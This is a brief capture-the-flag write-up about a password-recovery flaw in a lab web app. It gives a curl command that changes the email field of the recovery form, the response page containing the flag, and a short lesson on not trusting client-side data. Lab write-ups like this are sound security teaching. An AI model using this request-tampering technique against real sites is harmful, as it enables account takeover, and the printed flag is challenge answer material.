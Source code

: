 # Password_Recovering

_/index.php?page=recover_

#### A formdata is sent with an email that will be used to recover a password, we can change the mail value with an API request
```curl --location 'http://192.168.1.27/index.php?page=recover' --form 'mail="another_email"' --form 'Submit="Submit"'```

#### We get the flag
```
<h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2>
```

## Good behavior
```
Never allow user from client side to access/modify sensitive data
```